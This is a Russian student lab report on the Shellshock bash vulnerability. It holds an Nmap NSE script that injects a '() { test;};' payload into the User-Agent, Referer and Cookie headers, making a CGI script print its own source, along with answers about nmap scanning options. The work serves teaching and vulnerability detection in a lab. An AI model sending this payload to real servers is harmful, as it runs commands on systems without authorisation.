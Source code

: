 # Лабораторная работа №4
1) Уязвимость Shellshock (или Bashdoor) - это уязвимость в оболочке Bash. Она позволяет злоумышленнику выполнить произвольные команды на сервере, используя специально сконструированные переменные среды. Уязвимость проявляется в возможности выполнения кода в bash-скриптах, вызываемых через переменные окружения, что позволяет злоумышленнику запустить произвольные команды на сервере. Это может привести к серьезным последствиям, таким как компрометация сервера, утечка данных и т. д.

2) Скрипт:
```nse
local shortport = require "shortport"
local http = require "http"
local stdnse = require "stdnse"

description = [[
Detects the Shellshock vulnerability by sending a specially crafted HTTP request.
]]

---
-- @output
-- PORT   STATE SERVICE
-- 80/tcp open  http
-- | scan:
-- |   VULNERABLE
-- |   Detected by sending a specially crafted HTTP request.
--
-- @args shellshock.path Path to test for Shellshock vulnerability
-- @args shellshock.headers Additional HTTP headers to include in the request
-- @args shellshock.timeout Request timeout in seconds
-- @args shellshock.ssl Use SSL/TLS
--
-- @usage
-- nmap --script shellshock -p 80 <target>
--
-- @output
-- PORT   STATE SERVICE
-- 80/tcp open  http
-- | scan:
-- |   VULNERABLE
-- |   Detected by sending a specially crafted HTTP request.
--
-- @args shellshock.path Path to test for Shellshock vulnerability
-- @args shellshock.headers Additional HTTP headers to include in the request
-- @args shellshock.timeout Request timeout in seconds
-- @args shellshock.ssl Use SSL/TLS
--
-- @usage
-- nmap --script shellshock -p 80 <target>
--

author = "VladGud"

categories = {"vulnerability"}

portrule = shortport.http

action = function(host, port)
  local path = stdnse.get_script_args("shellshock.path") or "/cgi-bin/shockme.cgi"
  local headers = stdnse.get_script_args("shellshock.headers") or {"User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi"}
  local timeout = stdnse.get_script_args("shellshock.timeout") or 10

  local cmd = "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /usr/lib/cgi-bin/shockme.cgi"

  local options = {header={}}
  options["no_cache"] = true
  options["header"]["User-Agent"] = cmd
  options["header"]["Referer"] = cmd
  options["header"]["Cookie"] = cmd

  local req = http.get(host, port, path, options, timeout)
  print(req.body)
  if (req and req.status == 200 and req.body and req.body:match("#!/usr/local/bin/bash")) then
    return string.format("VULNERABLE - Detected by sending a specially crafted HTTP request")
  end
end
```

3) Пример запуска:
```shell
nmap --script scan.nse 172.17.0.2 
```

4) Результаты работы
![screen-shellshock](./screen-shellshock.png)

Вопросы:
1. Что за дефолт порты у nmap

Nmap имеет список портов по умолчанию, который он сканирует, если не указаны конкретные порты для сканирования пользователем. Этот список называется "well-known ports" или "top ports". Он содержит наиболее часто используемые порты, где обычно работают известные службы. Этот список включает порты, такие как 21 (FTP), 22 (SSH), 80 (HTTP) и другие.

2. Как указать сканирование нескольких портов

`nmap --script scan.nse -p 81,8080 172.17.0.2`

3. SYN сканирование - это отправка пакетов TCP SYN (инициализация соединения) с целью получение ответа SYN-ACK, убеждение, что порт открыт на тисипи (прослушивается) и хост живой
4. Как регулировать скоростью сканирования
- `nmap --scan-delay 1ms 172.17.0.2` -- время задержки между пакетами сканирования
- `nmap --max-parallelism 10% 172.17.0.2` -- отправка запросов сканирования в параллельном режиме 